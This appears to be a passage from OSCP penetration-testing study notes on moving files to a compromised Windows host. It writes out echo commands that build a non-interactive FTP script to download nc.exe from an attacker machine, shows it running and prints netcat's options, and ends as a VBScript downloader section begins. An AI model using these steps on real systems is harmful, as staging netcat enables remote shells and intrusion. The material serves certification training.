 ![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/18.jpg)

C:\Users\offsec>echo open 10.11.0.4 21> ftp.txt
C:\Users\offsec>echo USER offsec>> ftp.txt
C:\Users\offsec>echo lab>> ftp.txt
C:\Users\offsec>echo bin >> ftp.txt
C:\Users\offsec>echo GET nc.exe >> ftp.txt
C:\Users\offsec>echo bye >> ftp.txt


• The command file begins with the open command, which initiates an FTP connection to the specified IP address.

• the script will authenticate as offsec with the USER command and supply the password, lab.

• At this point, we should have a successfully authenticated FTP connection and we can script the commands necessary to transfer our file.

• We will request a binary file transfer with bin and issue the GET request for nc.exe. Finally, we will close the connection with the bye command:

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/19.jpg)

• In the above listing, we used -v to suppress any returned output, 
 -n to suppresses automatic login,and -s to indicate the name of our command file.
 
• When the ftp command in Listing above runs, our download should have executed, and a working copy of nc.exe should appear in our current directory:

C:\Users\offsec> ftp -v -n -s:ftp.txt
ftp> open 192.168.1.31 21
ftp> USER offsec
ftp> bin
ftp> GET nc.exe
ftp> bye
C:\Users\offsec> nc.exe -h
[v1.10 NT]
connect to somewhere: nc [-options] hostname port[s] [ports] ...
listen for inbound: nc -l -p port [options] [hostname] [port]
options:
 -d detach from console, stealth mode
 -e prog inbound program to exec [dangerous!!]
 -g gateway source-routing hop point[s], up to 8
 -G num source-routing pointer: 4, 8, 12, ...
 -h this cruft
 -i secs delay interval for lines sent, ports scanned
 -l listen mode, for inbound connects

![dockerengine]({{ site.baseurl }}/post_img/oscp_origin/16/20.jpg)


/ftphome = in kali machine we already setupped.

16.2.2 Windows Downloads Using Scripting Languages

• set of non-interactive echo commands, when pasted into a remote shell, will write out a wget.vbsscript that acts as a simple HTTP downloader:
